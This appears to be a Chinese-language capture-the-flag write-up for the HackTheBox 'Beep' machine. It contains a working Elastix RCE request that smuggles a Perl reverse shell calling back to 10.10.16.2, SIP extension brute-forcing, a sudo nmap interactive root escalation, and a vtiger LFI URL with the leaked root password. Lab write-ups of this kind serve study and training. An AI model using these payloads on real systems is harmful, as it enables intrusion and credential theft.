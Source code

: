 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Beep"
linktitle: "Beep"
date: 2022-05-12T14:51:40+08:00
type: book
summary: ""
test: 
---
```



nmap

```bash
sudo nmap -T4 -Pn -sS -n -p- -vv -sV 10.10.10.7
```

![](image/image_PuXk5LUva2.png)

80，443端口

![](image/image_YzJj-jq23J.png)

不知道是什么版本，搜索一下，发现2.2.0存在rce漏洞

![](image/image_Vae78oiTnq.png)

python脚本地址

[https://www.exploit-db.com/exploits/18650](https://www.exploit-db.com/exploits/18650 "https://www.exploit-db.com/exploits/18650")

漏洞原理：

```bash
#https://seclists.org/fulldisclosure/2012/Mar/234

#RCE exp:
[HOST]/recordings/misc/callme_page.php?action=c&callmenum=[PHONENUMBER]@from-internal/n
Application: system
Data: [CMD]


```

尝试执行一下，发现会报错，看了下脚本代码挺简单的，就是访问了一下https，然后poc里的Data值写了反弹shll的命令，这里直接通过curl访问一下这个URL

```bash
curl -k --tlsv1 'https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.2%3a23333%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'


#Decode

https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.16.2:23333");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

```

![](image/image_9lV-WKw0fI.png)

报错，代码返回提示连接失败，查了下发现是sip 协议的`extension` 不正确，意思是1000这个用户不正确，

sip协议格式简介

```bash
#https://blog.csdn.net/w0z1y/article/details/109352365

#示例

Via: SIP/2.0/TCP user1pc.domain.com;branch=z9hG4bK776sgdkse
From: sip:user1@domain.com;tag=49583
To: sip:user2@domain.com
Call-ID: asd88asd77a@1.2.3.4
Max-Forwards: 70
Contact: sip:192.168.100.1:1111
Content-Type: text/plain；（application/sdp; application/cpim;）
Content-Length: 18

```

kali的svwar工具是一个针对SIP协议的渗透工具，可以爆破用户名，也就是`extension`值

```bash
svwar -m INVITE -e100-1000 10.10.10.7
```

扫描结果

![](image/image_XERgMZ9jrP.png)

将`extension`改为233，重新请求

```bash
curl -k --tlsv1 'https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.2%3a23333%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'


#Decode

https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.16.2:23333");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

反弹shell成功

![](image/image_WkmWJsXpwr.png)

提权

```bash
#whoami 当前用户
#id 当前用户权限
#sudo -l 查看有root权限的程序
```

居然有nmap，还是root权限，查看一下版本

![](image/image_gd6o-K2tTF.png)

nmap 2.02 - 5.21版本可以打开交互界面提权

```bash
sudo nmap --interactive

nmap>!sh

```

提权成功

![](image/image_L-kcQH7Se-.png)

其他思路

本地文件包含漏洞

```bash
https://www.exploit-db.com/exploits/37637
```

![](image/image_i5LJ7ASAyl.png)

直接可以找到给出关键的文件

![](image/image__sqtqTuuHQ.png)

访问URL

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

直接获取到账号密码

![](image/image_2cc3Jp9vkq.png)

web后台和ssh使用一样的密码

直接登录ssh，

root/jEhdIekWmdjE

![](image/image_rZgp9BtBG6.png)
